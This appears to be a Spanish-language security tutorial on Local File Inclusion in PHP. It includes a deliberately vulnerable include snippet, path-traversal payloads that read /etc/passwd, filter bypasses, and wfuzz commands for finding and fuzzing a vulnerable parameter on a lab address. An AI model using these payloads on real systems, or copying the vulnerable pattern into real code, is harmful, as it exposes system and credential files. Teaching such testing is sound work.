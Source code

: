 
## 📑 Índice de Contenidos

1. [🔥 Ejemplo vulnerable](#lfi)
2. [❌ ¿Qué hace mal este código?](#mal)
3. [🔍 ¿Cómo sospechamos que puede haber un LFI?](#-cómo-sospechamos-que-puede-haber-un-lfi)
4. [🔁 Bypasses comunes](#-bypasses-comunes)
5. [🤖 Automatizando con `wfuzz`](#-automatizando-con-wfuzz)
6. [🔎 Caso práctico: LFI en `login.php`](#-caso-práctico-lfi-en-loginphp)



<a name="lfi"></a>
🗂️ LFI (Local File Inclusion)
Una mala configuración en una aplicación web puede permitir al atacante incluir archivos del sistema, revelando información sensible. A continuación, un ejemplo típico en PHP:

🔥 Ejemplo vulnerable
```
<?php
// archivo: index.php

if (isset($_GET['page'])) {
    include($_GET['page']);
} else {
    include("home.php");
}
?>
```

<a name="mal"></a>
❌ ¿Qué hace mal este código?
Usa directamente $_GET['page'] sin validación.

  -Permite al atacante incluir archivos arbitrarios.

  -Por ejemplo, el siguiente payload puede mostrar el contenido de /etc/passwd en sistemas Linux:
  ```
  http://ejemplo.com/index.php?page=../../../../../../../etc/passwd
  ```

## 🔍 ¿Cómo sospechamos que puede haber un LFI?
URLs como estas son sospechosas:
```
http://victima.com/index.php?page=home
http://victima.com/?template=about
http://victima.com/view.php?file=readme.txt
```
Prueba incluir archivos del sistema:
```
http://victima.com/index.php?page=../../../../../../../etc/passwd
```
🧪 Si es vulnerable, verás algo como:
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
```

## 🔁 Bypasses comunes

Si hay validaciones o filtros, intenta con variantes como:

| Técnica                                  | Ejemplo                                                                          |
| ---------------------------------------- | -------------------------------------------------------------------------------- |
| Null byte (en versiones antiguas de PHP) | `../../../../../etc/passwd%00`                                                   |
| Agregar signo de pregunta                | `../../../../../etc/passwd?`                                                     |
| Rutas con doble punto y slash mezclados  | `....//....//etc/passwd`                                                         |
| Wrappers de PHP                          | `php://filter/convert.base64-encode/resource=index.php` (para ver código fuente) |


si quieres saber más de los wrappers:
```bash
https://swisskyrepo.github.io/PayloadsAllTheThings/File%20Inclusion/Wrappers/
```

## 🤖 Automatizando con wfuzz

Puedes usar wfuzz con diccionarios específicos para encontrar rutas LFI:
```bash
wfuzz -u "http://target.com/index.php?page=FUZZ" -w /usr/share/seclists/Fuzzing/LFI/LFI-gracefulcore.txt
```
Diccionarios útiles:

  -Seclist (dentro de /Fuzzing/LFI)

  -SecLists/Fuzzing/LFI/LFI-Jhaddix.txt

## 🔎 Caso práctico: LFI en login.php

Supón que descubres esta URL:
```bash
http://172.17.0.2/login.php
```
Y sospechas que puede tener un parámetro vulnerable. Primero intentamos descubrir el nombre del parámetro:
```bash
wfuzz -c --hc=404 -z file,/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt \
"http://172.17.0.2/login.php?FUZZ=/etc/passwd"
```
👀 Observas que la mayoría de las respuestas tienen 1036 caracteres. Puedes filtrarlas con --hh:
```bash
wfuzz -c --hc=404 --hh=1036 -z file,/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt \
"http://172.17.0.2/login.php?FUZZ=/etc/passwd"
```
✅ Esto revela que el parámetro vulnerable es file. Ahora prueba un payload con un diccionario de LFI:
```bash
wfuzz -c --hc=404 --hh=1036 -z file,/opt/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt \
"http://172.17.0.2/login.php?file=FUZZ"
```
